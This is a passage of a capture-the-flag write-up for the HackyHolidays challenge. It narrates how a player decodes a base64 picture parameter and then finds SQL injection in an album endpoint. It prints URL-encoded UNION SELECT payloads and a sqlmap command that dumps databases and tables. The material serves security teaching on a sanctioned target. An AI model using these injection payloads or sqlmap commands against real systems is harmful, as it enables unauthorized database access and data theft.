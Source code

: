 {F1138170}

Enumerating the API endpoint always resulted in a 401 unauthorised, So Mr.R3b00t had to find a way to bypass this restriction so that he can enumerate the endpoints for /api/* other things that Mr.R3b00t found out, the site was having albums and albums were having photos.

For fetching an album the following request was being made  https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k and for fetching the pictures the following request was being made https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzEzZDc0NTU0YzMwZTEwNjk3MTRhNWE5ZWRkYThjOTRkLmpwZyIsImF1dGgiOiI5NGZiMzk4ZDc4YjM2ZTdjMDc5ZTc1NjBjZTlkZjcyMSJ9

On decoding the base64 The following JSON string was obtained.

```json
{"image":"r3c0n_server_4fdk59\/uploads\/13d74554c30e1069714a5a9edda8c94d.jpg","auth":"94fb398d78b36e7c079e7560ce9df721"}
```
Looks like internal URL calling was being done, also an "auth" key was being passed , changing the path in the "image" key resulted in "invalid authenticated hash" error, somehow the "image" and "auth" keys were associated.

{F1138171}

After playing around for sometime Mr.R3b00t finally got a lead. The "hash" param was vulnerable to SQL injection, The request to `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20UNION%20SELECT%201,NULL,NULL;--` was returning all the photos present in the first album

Similarly, the request to `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20UNION%20SELECT%202,NULL,NULL;--` was returning photos from the second album.

Soon after this, Mr.R3b00t fired up sqlmap and excute the following command

```
Python3 sqlmap.py -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k --method get -p "hash" --dbs
```

The param was indeed vulnerable to sqli, sqlmap dumped two databases.

{F1138173}

"recon" was kinda interesting, Next off it was time to dump the tables for "recon".

{F1138172}

"It is making total sense now! Now I know why the request was dumping the photos for the first album" ..Mr.R3b00t said

___________________________________________________________________________________________________
## Trivia
___________________________________________________________________________________________________

Hey! It's d3f4u17 again, Let me explain you what Mr.R3b00t understood after looking at the dumped schema.

The request that Mr.R3b00t made earlier `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20UNION%20SELECT%201,NULL,NULL;--` was exploiting the query which was being used in the backend for the table "album".
